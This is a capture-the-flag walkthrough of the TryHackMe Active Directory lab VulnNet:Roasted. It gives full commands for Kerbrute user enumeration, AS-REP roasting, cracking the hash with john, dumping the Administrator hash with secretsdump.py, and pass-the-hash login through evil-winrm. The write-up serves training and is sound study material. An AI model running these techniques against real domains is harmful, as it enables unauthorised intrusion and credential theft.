


# VulnNet:Roasted — Writeup

**Difficulty:** Easy     
**Operating System:** Windows (Active Directory)  

---

## Reconnaissance

### Setup /etc/hosts

Configure DNS resolution for domain:




### Nmap Scan

```bash
nmap -p- -sC -sV roasted.lab
```





**Most Interesting Ports:**

- Port 53: DNS
- Port 88: Kerberos
- Port 135: RPC
- Port 389: LDAP
- Port 445: SMB
- Port 3268: Global Catalog LDAP
- Port 5985: WinRM

### Domain Information

![[Machines/TryHackMe/Vulnnet_Roasted/Screenshots/enum4linux.png]]


![[Machines/TryHackMe/Vulnnet_Roasted/Screenshots/enum4linux2.png]]


**Domain Name:** vulnnet-rst.local  
**FQDN:** WIN-2BO8M1OE1M1.vulnnet-rst.local

Add to `/etc/hosts`:

![[etchosts2.png]]


---

## SMB Enumeration

### Shares Discovery

![[smbclient-L-N.png]]


**Anonymous Shares Found:**

- VulnNet-Business-Anonymous
- VulnNet-Enterprise-Anonymous

### File Extraction

![[smb_business_content.png]]


![[smb_enterprise_content.png]]

Download the available files.

### Name Harvesting

Txt's content:

![[txts1.png]]


![[txts2.png]]

**Valid Usernames Discovered:**

- Alexa Whitehat
- Jack Goldenhand
- Tony Skid
- Johnny Leet

---

## Kerberos Enumeration

### User Generation Script

I created a simple Python script to generate possible username combinations from the harvested names.

```bash
python3 GenerateUsers.py
```

This script will make a Users_combinations.txt to enumerate the kerberos target

**Script available on:** https://github.com/NonamesecX/Cybersecurity-writeups/blob/main/TryHackMe/VulnNet%3ARoasted/Scripts/GenerateUsers.py

(On the future I'll make it powerfully to use in every lab environment)


### Kerbrute User Enumeration

```bash
kerbrute userenum -d vulnnet-rst.local --dc WIN-2BO8M1OE1M1.vulnnet-rst.local Users_combinations.txt --downgrade
```

![[kerbrute-blur.png]]

**Result: An AS-REP response was obtained for an account without Kerberos pre-authentication. The `--downgrade` option caused Kerbrute to request the RC4-based encryption type, making the captured material more practical for offline password cracking.

### AS-REP Hash Cracking

```bash
john hash.txt --wordlist=/PATH/TO/rockyou.txt
```

![[Machines/TryHackMe/Vulnnet_Roasted/Screenshots/john.png]]

**Credentials Recovered:**

{REDACTED}:{PASSWORD}

The username was generated from the names previously harvested from the anonymous SMB shares.

---

## SMB Access & Credential Discovery

### SMB Enumeration with Credentials

![[smb_netlogon.png]]

**Password File Discovery**

![[a_credentials.png]]


**File Contents:** Valid credentials for a-whitehat found in text:

a-whitehat:{REDACTED}

**User Status:** a-whitehat is a member of high privileges

---

## Authenticated Access

### SMB Access with Admin Credentials

```bash
smbclient //roasted.lab/C$ -U a-whitehat --password {PASSWORD}
```

![[smb_C$.png]]

### User Flag Discovery

Navigate to enterprise-core-vn user desktop:

![[spoted_usertxt.png]]

```
get user.txt

cat user.txt
```

![[user_flag.png]]

**User flag:** obtained

---

## Privilege Escalation

### Secretsdump Execution

Because `a-whitehat` has administrative privileges, `secretsdump.py`
can be used to extract the Administrator NTLM hash from the target.

Extracting NTLM hashes from the target using `secretsdump.py`:

```bash
secretsdump.py vulnnet-rst.local/a-whitehat:{PASSWORD@roasted.lab
```

![[NTML_Administrator.png]]


**Hash Extracted:** Administrator NTLM hash obtained

### Pass-the-Hash Attack

Use Administrator NTLM hash to authenticate via WinRM:

```bash
evil-winrm -i roasted.lab -u Administrator -H {NTLM_HASH}
```

![[winrm_access.png]]

**Explanation:** Pass-the-Hash allows authentication using an NTLM hash without requiring the plaintext password.

**Result:** Administrator shell access granted

### System Flag

Navigate to Administrator desktop:

```
cd C:\Users\Administrator\Desktop
cat system.txt
```

![[Screenshots/system_flag.png]]

**System Flag:** Obtained

---
> Made by [NonamesecX](https://github.com/NonamesecX) | For educational purposes only!
